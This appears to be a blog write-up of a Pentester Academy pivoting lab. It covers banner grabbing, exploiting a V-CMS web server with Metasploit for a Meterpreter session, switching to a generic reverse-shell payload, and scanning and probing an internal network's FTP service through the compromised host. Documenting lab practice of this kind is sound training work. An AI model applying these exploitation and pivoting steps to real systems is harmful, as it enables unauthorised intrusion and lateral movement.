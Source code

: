 ```yaml
---
title: Pivoting II
date: 2022-06-06 12:00:00 -500
categories: [Pentesting,Pivoting]
tags: [Pentester Academy,Metasploit]
---
```


# Pivoting II

## Steps taken:
##### 1. Get the banner of the target machine.

```bash
# nmap -sV --script=banner 192.220.27.3
```

![](/assets/img/1557.png)

##### 2. Since I don't know what kind of software is being run on the webpage(since its running nginx), I can assume that its a web page and can use the command **curl** to get a GET request:

```bash
# curl 192.220.27.3:80
```

![](/assets/img/1558.png)

	- Notice that the software's name is V-CMSv1.0. 
	- Now, search for exploits available for this!

##### 2.5) Start the database to be used on Metasploit:

```bash
# service postgresql start
# msfdb init
```

##### 3. Searching exploits for VCMS in Metasploit.
```bash
# msfconsole -q
> db_status
-> To check if metasploit is connected to database BEFORE using.
> search vcms
```

![](/assets/img/1559.png)

##### 4. Use this exploit and try whether this is valid.

![](/assets/img/1560.png)

	- Now, run it!

##### 5. Exploiting the web server:
```bash
		> exploit
```

![](/assets/img/1561.png)

	- Works! Now, you can get the first flag on this compromised machine.

![](/assets/img/1562.png)

##### 6. Now, check what programs are useable in this machine with this Meterpreter!
```bash
meterpreter> ?
		- Note that most times, we want to check the networking commands since we use those on pivoting after all!
```

![](/assets/img/1563.png)

	- So, only 'portfwd' command is available on this machine.

##### 7. As of now, we don't know what is the other network on the machine that is connected to this compromised one. Let's check it by downgrading first the meterpreter shell to a 'cmd' and then use 'ifconfig' since 'ifconfig' is not available in this Meterpreter shell in the first place:
```bash
		meterpreter > ?
		ifconfig
```

![](/assets/img/1564.png)

	- Notice that the other other is: 192.82.254.0/24
	- Now, how can we use this machine as a 'bridge' to get to the hidden machine?
	- Let's try to use 'autoroute' first from metasploit.

##### 8. Using autoroute to create a pivot on the compromised machine.

![](/assets/img/1565.png)

Outcome:

![](/assets/img/1566.png)

	- Notice that the module did not work. I assume we have to use the 'portfwd' networking API from the Meterpreter shell afterall!

##### 9. **CAUTION** : If you compromise a machine with a Meterpreter shell IMMEDIATELY, you won't get good networking API's on your meterpreter. You have to use a generic reverse shell first AND THEN UPGRADE TO METERPRETER!

	- Use:

			meterpreter > set payload generic/shell_reverse_tcp
			- Change the payload since the default one uses Meterpreter!

	- Outcome:

![](/assets/img/1567.png)

		- Notice that when you do a generic shell and upgrade to meterpreter shell, you'll have MORE networking APIs on your Meterpreter!

![](/assets/img/1568.png)

##### 10. Now, since this compromised machine is set as a pivot, check which machine are available on this other separate network. In this case, you can use auxiliary/scanner/portscan/tcp:

![](/assets/img/1569.png)

	- Notice that the other machine that is up on the other network is 192.82.254.3 which as ports open: 21 and 22 which is SSH!

##### 11. First, let's attack the FTP port (port 21) first by figuring out its FTP version.

		msf > use auxiliary/scanner/ftp/ftp_version

- Here's the outcome when trying to probe for the FTP version of the hidden machine:

![](/assets/img/1570.png)

	- For some reason, the operation failed. It says that it was "block in spawn". Does that mean that even before you try to connect to the compromised machine, it got blocked? If so, there is a possiblity that a firewall exists in between this web server and the internal network.

- Checking if the ftp allows anonymous logins:

		msf > use auxiliary/scanner/ftp/anonymous

![](/assets/img/1571.png)

	- I'm getting the same error!

- Checking if ftp_logins are allowed:

		msf > use auxiliary/scanner/ftp/ftp_login
		- It is, but we don't have any information whatsoever about the ftp credentials.

### That's because you're using it on the wrong network and NOT on the internal one!

##### 12. Checking out if a firewall exists in between the compromised machine and internal network.

![](/assets/img/1572.png)

	- The host is definitely up but the scanned ports are being filtered. There's definitely a firewall. How can you bypass it then?
	- The firewall actually exists between the Internet and the web server!

##### 13. In the lab, there's a hint that both the machines are using Linux machines. In this case, we can search exploits on the next machine like:

		msf > search exploit/unix/ftp

![](/assets/img/1573.png)

- Now the challenge is which one to pick in these exploits.
- I guess since there's only three and NMAP doesn't seem to work on the machine with the pivot, we can just brute-force it!
- Note that in real pentest, you should have been able to NMAP the machine from the internal network cause otherwise, you wouldn't know whether it is using VSFTPD in the first place and thus, you wouldn't be able to use any kind of exploit as the attacker!

##### 14. Using the #3 exploit:

![](/assets/img/1574.png)
